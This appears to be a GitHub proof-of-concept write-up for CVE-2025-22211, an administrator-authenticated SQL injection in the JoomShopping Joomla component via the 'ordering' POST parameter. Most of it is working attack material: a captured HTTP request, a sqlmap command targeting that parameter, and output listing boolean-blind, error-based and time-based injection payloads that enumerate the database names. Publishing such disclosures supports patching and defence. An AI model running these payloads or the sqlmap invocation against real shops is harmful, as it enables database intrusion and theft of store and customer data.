

# CVE-2025-22211: SQL injection in JoomShopping for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22211

**JoomShopping:** https://extensions.joomla.org/extension/joomshopping/

## Introduction
A SQL injection vulnerability in the JoomShopping component versions 1.0.0-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands in the country management area in the backend via the 'ordering' parameter.

## POC
To exploit this vulnerability go to 'JoomShopping >> Options >> Country list >> Country >> Afganistan' and save the save request to a file (req.txt).



**HTTP Request:**
```
POST /administrator/index.php?option=com_jshopping&controller=countries HTTP/1.1
Host: localhost:8080
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jshopping&controller=countries&task=edit&country_id=1
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; 89425edf8ba7e3f24f10ecefaaf7057a=fb7c446dbbc7dacdd059be3a33f033cc
Connection: keep-alive

country_publish=1&ordering=1&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p ordering
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: ordering (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: country_publish=1&ordering=1' AND EXTRACTVALUE(8366,CASE WHEN (8366=8366) THEN 8366 ELSE 0x3A END)-- iddH&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: country_publish=1&ordering=1' AND GTID_SUBSET(CONCAT(0x716a7a7671,(SELECT (ELT(4079=4079,1))),0x7178716271),4079)-- dRyK&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: country_publish=1&ordering=1' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))QDfY)-- knHD&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
